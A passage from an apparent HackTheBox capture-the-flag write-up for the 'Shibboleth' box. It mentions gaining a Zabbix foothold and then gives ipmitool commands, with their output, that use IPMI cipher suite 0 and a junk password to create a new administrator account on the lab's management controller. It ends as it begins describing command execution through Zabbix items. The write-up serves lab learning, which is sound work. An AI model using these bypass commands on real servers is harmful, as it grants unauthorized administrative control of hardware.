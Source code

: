 The credentials work in [Zabbix](http://monitor.shibboleth.htb), giving us an Initial Foothold.

<br>

_**BONUS: Create ADMINISTRATOR User (not relevant for this box)**_
```bash
$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P randomjunkpass user set name 3 p3           
$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P randomjunkpass user set password 3 p3       
Set User Password command successful (user 3)

$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P randomjunkpass user set priv 3 4     
User Commands:
               summary      [<channel number>]
               list         [<channel number>]
               set name     <user id> <username>
               set password <user id> [<password> <16|20>]
               disable      <user id>
               enable       <user id>
               priv         <user id> <privilege level> [<channel number>]
                     Privilege levels:
                      * 0x1 - Callback
                      * 0x2 - User
                      * 0x3 - Operator
                      * 0x4 - Administrator
                      * 0x5 - OEM Proprietary
                      * 0xF - No Access

               test         <user id> <16|20> [<password]>

$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P randomjunkpass user priv 3 4                                                            1 ⨯
Set Privilege Level command successful (user 3)
$ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P randomjunkpass user list    
ID  Name	     Callin  Link Auth	IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   Administrator    true    false      true       USER
3   p3               true    false      false      ADMINISTRATOR
```



-------

<br>

### Step 3
After a LOT of time going through Zabbix I found [this post](https://stackoverflow.com/questions/24222086/how-to-run-command-on-zabbix-agents) explaining how to execute commands from the server through `items`.

First, go to **Configuration > Hosts > Items**
